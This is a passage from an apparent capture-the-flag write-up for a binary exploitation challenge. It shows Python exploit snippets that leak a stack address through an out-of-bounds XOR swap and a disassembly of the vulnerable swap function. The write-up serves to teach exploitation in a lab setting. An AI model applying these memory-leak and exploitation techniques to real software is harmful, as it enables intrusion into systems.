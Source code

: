 > Note: functions like `rl()` and `sla()` are simple aliases for
> `t.recvline()` and `t.sendlineafter()`,  a full list can be seen using `vagd
> template` or looking at the exploit at the end

### Leaks

Looping back to main allows us to create multiple leaks, so we additionally
leak the value of STACK:

```python  
# leak stack  
STACK_LEAK = base_diff(0x7fffffffec68, 0x7fffffffec30) # 11

woogie_boogie(START_REF, ROP)  
woogie_boogie(0, STACK_LEAK)  
leak = u64(leaker(), endian='big')  
STACK = leak  
lhex(STACK, "stack: ") # 0x7fffffffed48  
```

we could also leak offsets like PIE or HEAP, but they won't be needed for the
exploit. Even the stack leak is only used to make the exploit more reliable.

> Note: it should be possible to make this exploit completely leak less, but
> this would make it a lot more brute force and luck reliant, so not today
> (^_^)

### Swap *(Insanity)*

Let's take a closer look at the swap function because this is were the OOB
vulnerability happens:

```assembly  
                            undefined __stdcall swap(undefined8 a, undefined8 b)  
                            ;; prolog  
       0010129a f3 0f 1e fa     ENDBR64  
       0010129e 55              PUSH       RBP  
       0010129f 48 89 e5        MOV        RBP,RSP  
                            ;; save a and b to stack  
       001012a2 48 89 7d f8     MOV        qword ptr [RBP + a_stack],a  
       001012a6 48 89 75 f0     MOV        qword ptr [RBP + b_stack],b  
                            ;; *a=*a^*b  
       001012aa 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]  
       001012ae 48 8b 10        MOV        RDX,qword ptr [RAX]  
       001012b1 48 8b 45 f0     MOV        RAX,qword ptr [RBP + b_stack]  
       001012b5 48 8b 00        MOV        RAX,qword ptr [RAX]  
       001012b8 48 31 c2        XOR        RDX,RAX  
       001012bb 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]  
       001012bf 48 89 10        MOV        qword ptr [RAX],RDX  
                            ;; *b=*a^*b  
       001012c2 48 8b 45 f0     MOV        RAX,qword ptr [RBP + b_stack]  
       001012c6 48 8b 10        MOV        RDX,qword ptr [RAX]  
       001012c9 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]  
       001012cd 48 8b 00        MOV        RAX,qword ptr [RAX]  
       001012d0 48 31 c2        XOR        RDX,RAX  
       001012d3 48 8b 45 f0     MOV        RAX,qword ptr [RBP + b_stack]  
       001012d7 48 89 10        MOV        qword ptr [RAX],RDX  
                            ;; *a=*a^*b  
       001012da 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]  
       001012de 48 8b 10        MOV        RDX,qword ptr [RAX]  
       001012e1 48 8b 45 f0     MOV        RAX,qword ptr [RBP + b_stack]  
       001012e5 48 8b 00        MOV        RAX,qword ptr [RAX]  
       001012e8 48 31 c2        XOR        RDX,RAX  
       001012eb 48 8b 45 f8     MOV        RAX,qword ptr [RBP + a_stack]  
       001012ef 48 89 10        MOV        qword ptr [RAX],RDX  
                            ;; epilog  
```